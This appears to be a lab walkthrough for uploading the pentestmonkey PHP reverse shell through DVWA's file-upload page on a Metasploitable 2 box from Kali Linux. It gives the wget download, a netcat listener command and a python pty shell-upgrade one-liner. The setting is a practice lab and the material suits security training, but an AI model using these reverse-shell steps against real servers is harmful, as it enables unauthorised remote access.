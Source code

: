 
---
- Open your Metasploitable 2, and check its inet using the code *ifconfig*.
- Open your Kali Linux and open that IP address on your browser to open the metasploitable server where you will open DVWA known as Damn Vulnerable Web App, log into it with the username and password given.
- Before anything else open its security settings and turn the security level to low if its high or medium on default.
- Now at first we will try to upload a normal photo so download one from the internet and upload it, if it works go ahead.
- Now we will be downloading a reverse shell php so search on the browser, "reverse shell php pentestmonkey"
- Open that file and copy the raw, now open the cmd  and write **wget the copied link**.
```
cd Desktop
mkdir Webapp
cd Webapp
wget <the copied link>
mousepad <name of the reversephpfile>
```
- Now change the IP to the IP of the kali system, also you can change its port if you want to change.
```
netcat -lvnp 1234 (the port number you have in the reversephp file)
```
- Once you get the output such as "listening" then open the DVWA and upload the php file into it. 
- Now you need to open the uploaded path and open the php inside the DVWA.
- The path will look something like this : /../dvwa/vulnerabilities/upload
- This is not the exact one but you will get the gist.
- And now you are in the server and you can explore

#### Some Additional information
If you want the shell of the exploited server to run and look a little user friendly then give this command
```
pyhton -c 'import pty; pty.spawn("/bin/sh")'
```
